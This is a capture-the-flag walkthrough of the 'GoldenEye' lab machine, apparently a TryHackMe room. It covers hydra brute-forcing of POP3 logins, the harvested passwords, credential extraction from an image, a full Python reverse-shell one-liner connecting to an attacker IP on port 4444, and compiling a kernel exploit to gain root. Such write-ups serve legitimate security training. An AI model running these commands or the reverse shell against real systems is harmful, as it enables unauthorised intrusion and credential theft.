









# GoldenEye




```
&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;
```
I am working in vs code if I put the code here and view it in markdown preview I am getting it decrypted.<br>
**Password: &#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;**

For some reason I coun't acces `/sev-home/` and the password didn't fit `pop3` on port `55007` so I bruteforces it with `hydra`.
```
hydra -l boris -P fasttrack.txt -f golden.thm -s 55007 pop3

...
[55007][pop3] host: golden.thm   login: boris   password: secret1!
[55007][pop3] host: golden.thm   login: natalya   password: bird
....
```

Logged in into `pop3` using `telnet`<br>
```
telnet golden.thm 55007
user boris
pass secret1!

list

retr 1
retr 2
retr 3

# Same for Natalya
```




```
...
username: xenia
password: RCP90rulez!
...
```

I logged in on http://severnaya-station.com/gnocertdir/ and while looking around found email from `doak` so I decided to bruteforce his password and found something.
```
...
[55007][pop3] host: golden.thm   login: doak   password: goat
...
```

In doak's emails I found:<br>
```
username: dr_doak
password: 4England!
```
With these creds I logged in to the web service and found this:<br>
<br>

**s3cret.txt**:
```
007,

I was able to capture this apps adm1n cr3ds through clear txt. 

Text throughout most web apps within the GoldenEye servers are scanned, so I cannot add the cr3dentials here. 

Something juicy is located here: /dir007key/for-007.jpg

Also as you may know, the RCP-90 is vastly superior to any other weapon and License to Kill is the only way to play.
```

<hr>

Then I did
```
wget http://golden.thm/dir007key/for-007.jpg
strings for-007.jpg
```



```
admin:xWinter1995x!
```
I used this creds to login to the web service.
<hr>

Then I did this:<br>

**My rev-shell**: (Dont dorget to set up nc listener)<br>
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.116.12",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

Then:<br>


## Privilege Escalation
I did `uname -a` then found exploit but to run it I needed `gcc` which was not installed, however `cc` works too. Also I changed `gcc` to `cc` in the code itself. Then I started `python3 -m http.server` and downloaded the exploit. Then:
```
cc ofs.c -o ofs
./ofs
```
And got root.